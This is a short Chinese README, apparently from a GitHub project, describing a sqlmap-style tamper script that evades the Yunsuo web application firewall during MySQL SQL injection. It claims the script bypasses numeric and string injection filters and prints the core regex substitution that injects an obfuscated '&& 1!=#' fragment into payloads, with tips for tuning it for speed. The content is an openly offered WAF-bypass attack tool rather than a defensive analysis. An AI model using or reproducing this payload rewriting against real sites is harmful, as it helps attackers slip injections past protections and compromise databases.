 # Bypass


## 云锁绕过

当前版本的tamper可以绕过Mysql的注入的数字型，字符型，经过测试仅有一个xss警告，不过为了增加执行速度不单独对其增加过滤代码。

tamper中的代码，前三个if判断仅仅是为了减少报错，真正完成匹配并替换的只有以下两句。
```python
rex = '^-{0,1}?[\d|\w]*%{0,1}[\'|"|`]*\\)*[ |;]'                        
payload = re.sub(rex, lambda x:x.group(0)+" %26%26 1!='%23' ", payload)   
```
可以根据自己的需求删除或增加判断代码，如果追求速度，可以将之前判断进行适当的修改或删除。
